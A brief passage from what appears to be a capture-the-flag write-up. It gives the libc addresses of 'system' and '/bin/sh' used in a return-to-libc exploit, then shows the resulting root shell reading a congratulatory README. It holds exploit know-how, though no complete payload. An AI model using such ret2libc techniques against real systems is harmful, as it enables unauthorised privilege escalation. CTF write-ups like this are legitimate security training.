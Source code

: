 `'\x60\xb0\xe6\xb7'` is the address of `system` and `\x58\xcc\xf8\xb7'` is the address of `"/bin/sh"`

We can then go to root home directory and find a `README`:
```bash
# cd /root
# ls
README
# cat README
CONGRATULATIONS !!!!
To be continued...
```

